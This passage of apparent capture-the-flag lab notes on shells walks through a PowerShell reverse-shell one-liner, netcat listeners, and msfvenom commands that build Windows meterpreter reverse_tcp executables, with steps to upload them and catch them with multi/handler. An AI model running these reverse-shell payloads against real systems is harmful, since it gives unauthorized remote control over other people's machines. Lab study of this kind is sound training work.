 powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.244.165",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
nc -lvnp 1234
```



--- 

10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

Step 1 - use the Task 9 command below (Use the Attack box ip)
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.60.103 LPORT=1234
```
Step 2 - use 'pwd' to locate the Shell.exe
Step 3 - open a browser with the Target ip and upload the Shell.exe
Step 4 - Open MSfconsole in the Attack box and use Multi/handler 
- Set LHOST Attackbox ip
- Set LPORT 1234
- run

Step 5 - click on the shell.exe from the browser
- background 

Step 6 - RDP to the Windows and open the browser with the Target ip
- Save the shell.exe file and run






11. Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

Step 1 - 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shells.exe LHOST=10.10.233.226 LPORT=1234
```
or 
```
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o shells.exe LHOST=10.10.174.70 LPORT=777
```
- RDP to Windows
- Uploads the shell.exe 
- nc -lvnp 1022
- msfconsole and create a listener (use multi/handler, Set LHOST, LPORT, Run)
- run ?cmd= Powershell command


2:05:46 - Staged


```
msfvenom --list payloads | grep "windows/x64/meterpreter"